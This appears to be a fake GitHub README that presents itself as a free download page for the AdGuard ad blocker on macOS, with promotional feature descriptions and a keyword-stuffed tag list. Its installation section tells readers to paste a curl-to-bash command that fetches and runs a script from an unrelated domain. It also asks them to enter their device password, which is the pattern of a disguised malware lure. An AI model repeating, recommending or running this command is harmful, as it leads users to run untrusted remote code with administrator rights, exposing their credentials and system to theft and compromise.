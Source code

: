 # AdGuard for Mac — Free Download for macOS

AdGuard is a powerful ad-blocking and privacy protection tool designed for macOS. Follow the instructions below to install AdGuard for free and enjoy a cleaner, safer browsing experience! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/adguard)

If the download button doesn’t work, follow the step-by-step terminal instructions below.

## 📦 How to Install AdGuard for macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with AdGuard

- 🛡️ **Ad Blocking**: Block intrusive ads, banners, and pop-ups for a seamless browsing experience.
- 🔒 **Privacy Protection**: Prevent trackers and analytics systems from collecting your data.
- 🚀 **Faster Browsing**: Improve page load times by eliminating unwanted ads and scripts.
- 🧑‍💻 **Custom Filters**: Create or import custom ad-blocking filters tailored to your needs.
- 🌙 **Dark Mode Support**: Enjoy a sleek interface that integrates beautifully with macOS Dark Mode.
- 🔧 **Parental Controls**: Restrict access to inappropriate content for a family-friendly browsing experience.

---

## About AdGuard

AdGuard is a leading ad-blocking solution designed to enhance your browsing experience on macOS. By leveraging advanced filtering technology, AdGuard removes intrusive advertisements, including banners, pop-ups, and video ads, ensuring a clean and distraction-free internet experience. Its lightweight design ensures minimal impact on system performance, making it an ideal choice for Mac users seeking both speed and efficiency. With AdGuard, you can browse confidently knowing that unwanted ads are eliminated before they even load.

Privacy is at the core of AdGuard’s mission. The software blocks trackers, cookies, and analytics tools that monitor your online behavior, safeguarding your personal information from third parties. By integrating seamlessly with macOS, AdGuard ensures that your data stays secure whether you’re browsing social media, shopping online, or streaming content. Its robust privacy protection features make it a must-have tool for anyone prioritizing online security.

AdGuard’s customization options set it apart from other ad blockers. Users can create or import custom filters to target specific types of ads or trackers, tailoring the software to their unique needs. Whether you’re a casual user or a power user, AdGuard’s intuitive interface makes it easy to configure settings and optimize your browsing experience. The software also supports multiple languages, ensuring accessibility for users worldwide.

For families, AdGuard offers powerful parental control features, allowing you to restrict access to inappropriate websites and content. This makes it an excellent choice for parents looking to create a safe online environment for their children. With regular updates and a dedicated support team, AdGuard ensures compatibility with the latest macOS versions and emerging online threats, keeping your browsing secure and up-to-date.

### Why Choose AdGuard?

AdGuard stands out for its combination of ad-blocking efficiency, privacy protection, and user-friendly design. Unlike browser-based ad blockers, AdGuard works at the system level, providing comprehensive protection across all browsers and apps. Its ability to block ads before they load not only enhances browsing speed but also reduces data usage, making it ideal for users with limited bandwidth. With a free version available for macOS, AdGuard offers premium features at no cost, making it accessible to everyone.

---

## 🖼 Preview

![AdGuard Dashboard](https://cdn.adguard.com/public/Adguard/Blog/Mac/2-6-0/DNS.png?%21=&mw=1360)
*AdGuard’s clean and intuitive dashboard for managing ad-blocking settings*

![Privacy Protection](https://cdn.adtidy.org/content/Kb/ad_blocker/safari/adguard-for-safari-extensions-checked.png)
*Configuring privacy protection settings in AdGuard*

![Custom Filters](https://cdn.adguard.com/public/Adguard/Blog/Mac/main_Mac.png?mw=1360)
*Creating custom filters for advanced ad-blocking control*

---

## 🔍 Tags

adguard free download, ad blocker mac, macos adblock, adguard install mac, free ad blocker, mac adblock software, adguard macos free, adguard free, adguard mac os, adguard download, free adguard download, adguard free mac, adguard mac, ad guard free, ad guard mac
